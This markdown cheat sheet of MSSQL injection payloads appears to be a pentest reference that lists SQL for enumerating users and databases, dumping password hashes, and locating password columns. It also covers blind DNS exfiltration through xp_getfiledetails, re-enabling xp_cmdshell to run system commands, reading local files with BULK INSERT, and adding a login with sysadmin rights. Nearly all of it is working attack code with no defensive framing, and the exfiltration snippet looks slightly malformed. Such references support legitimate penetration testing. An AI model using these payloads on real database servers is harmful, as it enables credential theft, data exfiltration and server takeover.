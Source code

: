 # MSSQL Injection

---

## References

- [Oracle](http://pentestmonkey.net/blog/oracle-sql-injection-cheat-sheet/)
- [MSSQL](http://pentestmonkey.net/blog/mssql-sql-injection-cheat-sheet/)
- [MySQL](http://pentestmonkey.net/blog/mysql-sql-injection-cheat-sheet/)
- [PostgreSQL](http://pentestmonkey.net/blog/postgres-sql-injection-cheat-sheet/)
- [Ingres](http://pentestmonkey.net/blog/ingres-sql-injection-cheat-sheet/)
- [DB2](http://pentestmonkey.net/blog/db2-sql-injection-cheat-sheet/)
- [Informix](http://pentestmonkey.net/blog/informix-sql-injection-cheat-sheet/)
- [MS Access](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

---

## Enumeration

### Version
```sql
SELECT @@version;
```

### Current User
```sql
SELECT user_name();
SELECT system_user;
SELECT user;
SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID;
```

### List Users
```sql
SELECT name FROM master..syslogins;
```

### Password Hashes (Privileged)
```sql
-- MSSQL 2000
SELECT name, password FROM master..sysxlogins;
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins;

-- MSSQL 2005+
SELECT name, password_hash FROM master.sys.sql_logins;
SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) FROM master.sys.sql_logins;
```

### Crack Hashes
MSSQL 2000 & 2005 use SHA1 — try:  
https://labs.portcullis.co.uk/application/phrasen-drescher/

### Current Database
```sql
SELECT DB_NAME();
```

### List Databases
```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); -- Where N = 0, 1, 2...
```

### List Tables
```sql
SELECT name FROM master..sysobjects WHERE xtype = 'U'; -- tables
SELECT name FROM master..sysobjects WHERE xtype = 'V'; -- views
```

### List Columns (in table)
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'mytable');
```

### Find Tables by Column Name
```sql
SELECT sysobjects.name AS tablename, syscolumns.name AS columnname
FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id
WHERE sysobjects.xtype = 'U' AND syscolumns.name LIKE '%PASSWORD%';
```

### Hostname/IP
```sql
SELECT HOST_NAME();
```

---

## Privilege Info

### Check Current Permissions
```sql
SELECT permission_name FROM fn_my_permissions(NULL, 'DATABASE');
SELECT permission_name FROM fn_my_permissions(NULL, 'SERVER');
SELECT permission_name FROM fn_my_permissions('master..syslogins', 'OBJECT');
SELECT permission_name FROM fn_my_permissions('sa', 'USER');
```

### Check Server Roles
```sql
SELECT is_srvrolemember('sysadmin');
SELECT is_srvrolemember('dbcreator');
-- repeat for bulkadmin, diskadmin, etc.
```

### List Users With Specific Roles
```sql
SELECT name FROM master..syslogins WHERE sysadmin = 1;
SELECT name FROM master..syslogins WHERE serveradmin = 1;
-- repeat for other roles...
```

---

## Functions and Tricks

### Select Nth Row
```sql
SELECT TOP 1 name
FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq
ORDER BY name DESC;
```

### Select Nth Char
```sql
SELECT SUBSTRING('abcd', 3, 1); -- returns 'c'
```

### Bitwise Ops
```sql
SELECT 6 & 2; -- returns 2
SELECT 6 & 1; -- returns 0
```

### ASCII/Char Conversion
```sql
SELECT CHAR(0x41); -- returns 'A'
SELECT ASCII('A'); -- returns 65
```

### Casting
```sql
SELECT CAST('1' AS int);
SELECT CAST(1 AS char);
```

### String Concat / Avoiding Quotes
```sql
SELECT 'A' + 'B'; -- AB
SELECT CHAR(65) + CHAR(66); -- AB
```

### Conditionals
```sql
IF (1=1) SELECT 1 ELSE SELECT 2;
SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END;
```

---

## Delays & Exfil

### Time Delay
```sql
WAITFOR DELAY '0:0:5';
```

### Make DNS Requests (Blind exfil)
```sql
DECLARE @host VARCHAR(800);
SELECT @host = name FROM master..syslogins;
EXEC('master..xp_getfiledetails "\' + @host + 'c$\boot.ini"');
```

---

## System-Level Access (Privileged)

### Command Execution
```sql
EXEC xp_cmdshell 'net user';

-- If disabled (2005+):
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Local File Access
```sql
CREATE TABLE mydata (line VARCHAR(8000));
BULK INSERT mydata FROM 'C:\boot.ini';
DROP TABLE mydata;
```

### Create Users / Grant Privileges
```sql
EXEC sp_addlogin 'user', 'pass';
EXEC sp_addsrvrolemember 'user', 'sysadmin';
```

### Drop User
```sql
EXEC sp_droplogin 'user';
```

### Locate DB Files
```sql
EXEC sp_helpdb master;
EXEC sp_helpdb pubs;
```

---

## Default/System DBs
- northwind
- model
- msdb
- pubs *(Not on SQL 2005)*
- tempdb